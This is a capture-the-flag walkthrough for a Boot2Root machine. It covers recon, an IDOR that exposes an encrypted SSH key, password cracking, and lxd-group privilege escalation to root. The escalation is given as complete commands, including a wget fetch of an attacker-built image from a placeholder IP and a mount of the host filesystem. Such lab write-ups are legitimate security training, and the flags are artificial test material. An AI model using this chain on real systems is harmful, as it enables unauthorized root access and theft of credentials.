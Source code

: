 ## BattleX CTF: machine1
#### Category: Boot2Root
#### Score: 60
#### Number of Solves: 3 
### Description

> You know what to do

### Recon

```
Starting Nmap 7.95 ( https://nmap.org ) at 2024-06-30 02:39 WAT
Nmap scan report for 10.10.146.166
Host is up (0.50s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f8:89:12:c0:ab:91:e2:29:1f:55:a6:b1:aa:48:e5:37 (RSA)
|   256 46:05:a8:f4:66:29:41:79:01:a0:43:b8:a9:ef:47:5d (ECDSA)
|_  256 04:db:fa:b1:16:82:c5:99:86:41:ba:8a:ea:72:34:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Proverb Categories
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.67 seconds
```

### TL; DR

Exploit IDOR in a web app and get access to sensitive information, in this case, a SSH private key, encrypted with a weak password. Using that as access and exploiting lxd group to get root access on this machine
    
### Solution Steps

![Imgur](https://i.imgur.com/4Z78fz0.png)

_Web server on port 80_

On checking the links in the proverb categories, they looked strange and similarly structured.

![Imgur](https://i.imgur.com/dEeLuF0.png)

They resemble an MD5 encoded text so I proceeded to use crackstation to try and reverse the text.

![Imgur](https://i.imgur.com/SOjlcBY.png)

My guess was right and it should be possible for me to generate my own MD5 and exploit an IDOR (Insecure Direct Object References) vulnerability. I generated several numbers in MD5 and tried to see if it existed, until `0`.

![Imgur](https://i.imgur.com/ERvoHX2.png)

It contained both public ssh and an encrypted private ssh key. The public key showed who owns them, `jayhunts`. I copied the private key to a file for cracking, using ssh2john and john.

![Imgur](https://i.imgur.com/akAJNrQ.png)

_Password found_

Now that the password has been found, login via ssh shouldn't be an issue. 

![Imgur](https://i.imgur.com/XjqnC6R.png)

_Login success_

```
jayhunts@BattleX:~$ cat user.txt
BattleX{e99a18c428cb38d5f260853678922e03}
jayhunts@BattleX:~$
```

User flag: `BattleX{e99a18c428cb38d5f260853678922e03}`
BattleX{e99a18c428cb38d5f260853678922e03}

### Privilege escalation

```
jayhunts@BattleX:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
[snip]
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
jayhunts:x:1000:1000:,,,:/home/jayhunts:/bin/bash
jayhunts@BattleX:~$ id
uid=1000(jayhunts) gid=1000(jayhunts) groups=1000(jayhunts),108(lxd)
```

After checking for users in `/etc/passwd` file, I ran id and saw that jayhunts is in the `lxd` group. This can be taken advantage of to get root access on this machine. 

I ran this on my pc to start the privilege escalation proceedure

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
```

It soon created a `alpine-v3.13-x86_64-20210218_0139.tar.gz` in the folder. Next I snuck the image to the machine with my simple http server, using wget.

```
wget http://MY_IP:8080/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

```
jayhunts@BattleX:~$ lxc image import import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
If this is your first time running LXD on this machine, you should also run: lxd init
To start your first container, try: lxc launch ubuntu:18.04

Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a

jayhunts@BattleX:~$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]:
Do you want to configure a new storage pool? (yes/no) [default=yes]:
Name of the new storage pool [default=default]:
Name of the storage backend to use (btrfs, dir, lvm) [default=btrfs]:
Create a new BTRFS pool? (yes/no) [default=yes]:
Would you like to use an existing block device? (yes/no) [default=no]:
Size in GB of the new loop device (1GB minimum) [default=15GB]:
Would you like to connect to a MAAS server? (yes/no) [default=no]:
Would you like to create a new local network bridge? (yes/no) [default=yes]:
What should the new bridge be called? [default=lxdbr0]:
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]:
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]:
Would you like LXD to be available over the network? (yes/no) [default=no]:
Would you like stale cached images to be updated automatically? (yes/no) [default=yes]
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]:

jayhunts@BattleX:~$ lxc init myimage mycontainer -c security.privileged=true
Creating mycontainer

jayhunts@BattleX:~$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to mycontainer

jayhunts@BattleX:~$ lxc start mycontainer
jayhunts@BattleX:~$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |          UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
| myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Jun 30, 2024 at 11:04am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
jayhunts@BattleX:~$ lxc exec mycontainer /bin/sh
~ # whoami
root
~ # pwd
/root
~ # ls
~ # cd /mnt/root
/mnt/root # ls
bin             etc             lib             mnt             run             swap.img        var
boot            home            lib64           opt             sbin            sys             vmlinuz
cdrom           initrd.img      lost+found      proc            snap            tmp             vmlinuz.old
dev             initrd.img.old  media           root            srv             usr
/mnt/root # cd root
/mnt/root/root # ls -lah
total 36K
drwx------    6 root     root        4.0K Jun 21 15:43 .
drwxr-xr-x   24 root     root        4.0K Jun 14 20:01 ..
lrwxrwxrwx    1 root     root           9 Jun 15 04:14 .bash_history -> /dev/null
-rw-r--r--    1 root     root        3.0K Jun 21 15:41 .bashrc
drwx------    2 root     root        4.0K Jun 16 00:46 .cache
drwx------    3 root     root        4.0K Jun 16 00:46 .gnupg
drwxr-xr-x    3 root     root        4.0K Jun 14 21:21 .local
-rw-r--r--    1 root     root         148 Aug 17  2015 .profile
drwx------    2 root     root        4.0K Jun 14 20:51 .ssh
-rw-------    1 root     root          42 Jun 21 15:43 root.txt
/mnt/root/root # cat root.txt
BattleX{c4ca4238a0b923820dcc509a6f75849b}
```

Thats all for machine1

Root flag: `BattleX{c4ca4238a0b923820dcc509a6f75849b}`

### Conclusion


### References

1. [Hacktricks lxd privilege escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)
